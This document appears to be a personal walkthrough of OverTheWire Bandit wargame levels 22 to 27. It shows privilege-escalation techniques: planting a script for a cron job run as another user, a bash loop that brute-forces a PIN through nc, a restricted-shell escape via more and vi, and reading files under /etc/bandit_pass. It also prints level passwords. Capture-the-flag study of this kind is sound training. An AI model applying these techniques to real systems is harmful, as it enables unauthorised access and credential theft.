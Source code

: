 NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
- ls -la /etc/cron.d
- cat /etc/cron.d/cronjob_bandit23
- cat /usr/bin/cronjob_bandit23.sh
- echo I am user bandit23|md5sum|cut -d ' ' -f 1
- cat /tmp/8ca319486bfbbc3663ea0fbe81326349
- Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
# Level 23->24
- ls -la /etc/cron.d
- cat /etc/cron.d/cronjob_bandit24
- cat /usr/bin/cronjob_bandit24.sh
- The script executes and deletes all files in the folder ‘/var/spool/bandit24’. This is the case because it is run as bandit24 user, so the variable ‘myname’ contains the value ‘bandit24’.
- Inside the if statement is the code to execute a script, but only if the owner is bandit23. Then the file will be deleted.
- Creating a script to give password for bandit24
- create inside temp folder
- script reads the content of the file and stores in a temp folder in a temp file called password.
- Give appropriate permissions
- cp pswd.sh /var/spool/bandit24/foo
- Password:gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
# Level 24->25
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
- nc localhost 30002
- #!/bin/bash

for i in {0..9}{0..9}{0..9}{0..9}
do

echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> list.txt;
done
cat list.txt | nc localhost 30002 > result.txt
- sort result.txt 
- password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
- ![image](https://github.com/user-attachments/assets/3f5ff6f0-b1ac-448f-a5a0-838bbfbd52cb)
# Level 25->26
- Try connecting to bandit26 using the ssh key given in the question
- shell is not /bin/bash but something else
- cat /etc/passwd|grep bandit26
- /usr/bin/showtext is a shell
- more command displays the contents of a file
- If we make the terminal window smaller, more will go into command mode. reduce size of the terminal and run ssh command with RSA key again, now on 
  clicking V, it opens vi, which is a text editor
- To spawn a shell, we can use :shell
- To change the shell, do :set shell=/bin/bash
- now use :shell
- do cat /etc/bandit_pass/bandit26
- password: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
# Level 26->27
- bandit27-do allows user to run command as another user
- ./bandit27-do cat /etc/bandit_pass/bandit27
- Password: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB